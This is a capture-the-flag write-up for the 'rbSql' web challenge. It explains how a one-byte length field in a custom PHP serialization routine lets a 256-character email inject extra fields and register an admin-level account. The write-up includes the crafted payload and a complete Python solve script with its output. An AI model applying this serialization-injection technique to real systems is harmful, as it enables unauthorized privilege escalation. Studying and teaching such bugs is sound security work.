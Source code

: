 ## rbSql (Web, 215pt)

> http://52.78.188.150/rbsql_4f6b17dc3d565ce63ef3c4ff9eef93ad/
> 
> [Download](src)

![](site.png)

I solved this challenge alongside my teammate [@tomtoump](https://github.com/tomtoump).

Source code was given for the challenge - you can find it in the [src](src) folder.

The challenge requires us to login with an admin account (`$_SESSION['lvl'] === "2"`) and access our profile in order to get flag.

```php
  elseif($page == "me"){
    echo "<p>uid : {$_SESSION['uid']}</p><p>level : ";
    if($_SESSION['lvl'] == 1) echo "Guest";
    elseif($_SESSION['lvl'] == 2) echo "Admin";
    echo "</p>";
    include "dbconn.php";
    $ret = rbSql("select","member_".$_SESSION['uid'],["id",$_SESSION['uid']]);
    echo "<p>mail : {$ret['1']}</p><p>ip : {$ret['3']}</p>";
    if($_SESSION['lvl'] === "2"){
      echo "<p>Flag : </p>";
      include "/flag";
      rbSql("delete","member_".$_SESSION['uid'],["id",$_SESSION['uid']]);
    }
  }
```

Before going deeper, the overall application functionality is outlined below.

```php
if ($page == "login")           {  // GET /?page=login
  //...
} elseif ($page == "join")      {  // GET /?page=join
  //...
} elseif ($page == "login_chk") {  // POST /?page=login_chk
  //...
} elseif ($page == "join_chk")  {  // POST /?page=join_chk
  //...
} elseif ($page == "photo")     {
  //...
} elseif ($page == "video")     {
  //...
} elseif ($page == "me")        {
  //...
} elseif ($page == "logout")    {
  //...
} else {
  //...
}
```

The application implements a **custom file-based database** (`dbconn.php`) allowing common CRUD operations (apart from update but this is not important for the challenge).

In order to start debugging, we can create the `rbSqlSchema` file using the following code:

```php
include "dbconn.php";
$data = ["rbSqlSchema", "/rbSqlSchema", ["tableName", "filePath"]];
rbWriteFile("./rbSqlSchema", $data);
```

Upon user registration the following code is executed:

```php
  elseif($page == "join_chk"){
    $uid = $_POST['uid'];
    $umail = $_POST['umail'];
    $upw = $_POST['upw'];
    if(($uid) && ($upw) && ($umail)){
      if(strlen($uid) < 3) error("id too short");
      if(strlen($uid) > 16) error("id too long");
      if(!ctype_alnum($uid)) error("id must be alnum!");
      if(strlen($umail) > 256) error("email too long");
      include "dbconn.php";
      $upw = md5($upw);
      $uip = $_SERVER['REMOTE_ADDR'];
      if(rbGetPath("member_".$uid)) error("id already existed");
      $ret = rbSql("create","member_".$uid,["id","mail","pw","ip","lvl"]);
      if(is_string($ret)) error("error");
      $ret = rbSql("insert","member_".$uid,[$uid,$umail,$upw,$uip,"1"]);
      if(is_string($ret)) error("error");
      exit("<script>location.href='./?page=login';</script>");
    }
    else error("join fail");
  }
```

As seen in the `rbSql()` function, the statement

```php
$ret = rbSql("create","member_".$uid,["id","mail","pw","ip","lvl"]);
```

results in the creation of a separate table/file for each user and the same file is read to handle user authentication.

```php
  case "create":
    $result = rbReadFile(SCHEMA);
    for($i=3;$i<count($result);$i++){
      if(strtolower($result[$i][0]) === strtolower($table)){
        return "Error6";
      }
    }
    $fileName = "../../rbSql/rbSql_".substr(md5(rand(10000000,100000000)),0,16);
    $result[$i] = array($table,$fileName);
    rbWriteFile(SCHEMA,$result);
    exec("touch {$fileName};chmod 666 {$fileName}");
    $content = array($table,$fileName,$query);
    rbWriteFile($fileName,$content);
    break;
```

We also observe that users are registered with `lvl === 1` (guest).

```php
$ret = rbSql("insert","member_".$uid,[$uid,$umail,$upw,$uip,"1"]);
```

As shown above, user-input filtering is quite permissive:

```php
if(strlen($uid) < 3) error("id too short");
if(strlen($uid) > 16) error("id too long");
if(!ctype_alnum($uid)) error("id must be alnum!");
if(strlen($umail) > 256) error("email too long");
```

It seems like we can inject whatever we like in the queries (no chars filtered apart from length) but the question is what should we inject!

User registration triggers the following function chain:

```
insert -> rbReadFile -> rbParse -> rbWriteFile -> rbPack
```

User login triggers the following function chain:

```
select -> rbReadFile -> rbParse
```

Auditing the source code of the application we concluded that the most important function to analyze is `rbPack()` which is used to serialize the data passed as argument.

```php
define("STR", chr(1), true);
define("ARR", chr(2), true);

function rbPack($data){
  $rawData = "";
  if(is_string($data)){
    $rawData .= STR . chr(strlen($data)) . $data;
  }
  elseif(is_array($data)){
    $rawData .= ARR . chr(count($data));
    for($idx=0;$idx<count($data);$idx++) $rawData .= rbPack($data[$idx]);
  }
  return $rawData;
}
```

Byte `\x01` denotes string and byte `\x02` denotes array. Then **the length of the data is stored in a single byte**.

```php
$a = array("a", "bb");
```

The above array will be serialized to the following:

```
\x02\x02\x01\x01a\x01\x02bb
```

Because the length is stored in a single byte, instead of `strlen($data)` the code uses `chr(strlen($data))`.

In the [PHP documentation](https://secure.php.net/manual/en/function.chr.php) we read the following:

> Values outside the valid range (0..255) will be bitwise and'ed with 255, which is equivalent to the following algorithm:

```
while ($ascii < 0) {
    $ascii += 256;
}
$ascii %= 256;
```

```
❯❯❯ php -r 'echo chr(256);' | hexdump
0000000 00
0000001
```

The final piece of the puzzle is that application will also allow email addresses with 256 chars!

```php
if(strlen($umail) > 256) error("email too long");
```

The plan is to send a 256-bytes email that will result in the bytes `\x01\x00` to prepend the email. The user will have an empty email address and we start injecting the password field with the precalculated MD5 hash of the user password. Then we inject the IP address which will also act as padding to reach the required length of 256 bytes. Finally, we inject the user level which will be `2` for admin.

Below is given the layout of our final payload:

```
\x01\x201a1dc91c907325c69271ddf0c944bc72
\x01\xD9AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
\x01\x012
```

Our solution is summarized in the [solve.py](solve.py) script.

```python
import re
import random
import urllib
import hashlib
import requests

_target = 'http://52.78.188.150/rbsql_4f6b17dc3d565ce63ef3c4ff9eef93ad/'
_pw = 'pass'
_uid = str(random.randint(1000, 9999))

mail = '\x01\x20' + hashlib.md5(_pw).hexdigest()
lvl = '\x01\x012'  # lvl === '2' => admin

pad_len = 256 - (len(mail) + len(lvl) + 2)
ip = '\x01' + chr(pad_len) + 'A'*pad_len

payload = mail + ip + lvl

print '[+] UID:      ' + _uid
print '[+] Password: ' + _pw
print '[+] Payload:  ' + urllib.quote(payload)

s = requests.Session()
s.post(_target+'?page=join_chk', data={"uid": _uid, "umail": payload, "upw": _pw})
s.post(_target+'?page=login_chk', data={"uid": _uid, "upw": _pw})
resp = s.get(_target+'?page=me')

flag = re.search('FLAG\{([^}]+)\}', resp.text).group(1)
print '[+] Flag:     FLAG{{{}}}'.format(flag)
```

```
[+] UID:      7951
[+] Password: pass
[+] Payload:  %01%201a1dc91c907325c69271ddf0c944bc72%01%D9AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%01%012
[+] Flag:     FLAG{akaneTsunemoriIsSoCuteDontYouThinkSo?}
```
